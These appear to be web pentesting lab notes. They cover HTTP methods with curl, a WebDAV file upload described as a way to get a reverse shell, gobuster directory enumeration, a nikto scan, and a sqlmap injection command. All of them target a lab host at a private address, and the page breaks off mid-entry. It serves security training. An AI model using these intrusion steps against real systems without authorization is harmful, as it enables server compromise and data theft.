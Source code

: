 # Labs

## <mark style="color:red;">Lab 1 - Web and HTTP Protocol</mark>

### Practical Demonstration

{% code overflow="wrap" lineNumbers="true" %}
```bash
curl http://192.168.0.141/mutillidae/ -X GET #get request reutrns entire webpage using curl.

# 1 - HEAD
curl http://192.168.0.141/mutillidae/ -I HEAD # head request.
# returns..
HTTP/1.1 200 OK
Date: Tue, 02 May 2023 20:28:07 GMT
Server: Apache/2.2.8 (Ubuntu) DAV/2
X-Powered-By: PHP/5.2.4-2ubuntu5.10
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Logged-In-User: 
Cache-Control: public
Pragma: public
Set-Cookie: PHPSESSID=cfae124dc259270a8aada8edf17dda69; path=/
Last-Modified: Tue, 02 May 2023 20:28:07 GMT
Content-Type: text/html

# 2 - upload files
# uploading file to /dav dir with curl to obtain reverse shell.
curl http://192.168.0.141/dav/ --upload-file php_code.php -v

# 3 - OPTIONS
# viewing supported http methods for the victim with curl.
curl -X 'OPTIONS' http://192.168.0.141/dav/ -v
# returns..
< Allow: OPTIONS,GET,HEAD,POST,DELETE,TRACE,PROPFIND,PROPPATCH,COPY,MOVE,LOCK,UNLOCK

```
{% endcode %}



## <mark style="color:red;">Lab 2 - Directory Enumeration with Gobuster</mark>

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt`  - dir enum.

`gobuster dir --help` - help menu.

`gobuster dir -u http://192.168.0.141 -w /usr/share/wordlists/dirb/common.txt -x .php,.xml,.txt -r` - finding specific file extension.



## <mark style="color:red;">Lab 3 - Scanning Web Apps with Nikto</mark>

`nikto -h http://192.168.0.141` - basic scan with nikto.



## <mark style="color:red;">Lab 4 - SQL Injection with SQLMap</mark>

`sqlmap -u "http://$ip/path" --cookie "PHPSESSID=3434" -p title` -&#x20;

\`

































